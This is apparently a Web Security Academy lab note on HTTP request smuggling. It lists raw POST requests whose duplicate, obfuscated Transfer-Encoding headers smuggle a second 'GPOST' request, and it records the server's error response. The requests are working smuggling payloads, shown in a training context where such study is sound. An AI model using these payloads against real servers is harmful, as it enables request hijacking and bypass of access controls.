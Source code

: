 
A series of these requests in this order successfully smuggled in a 2nd request labled GPOST

##### REQUESTS:

---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---

>`POST / HTTP/1.1
>`Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
  `Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`Transfer-Encoding: chunked
>`Transfer-encoding: identity
>`3
>`x=y
>`5e
>`GPOST / HTTP/1.1
>`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15
>`x=1
>`0
---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---


#####  RESPONSE:
"Unrecognized method GPOST"

---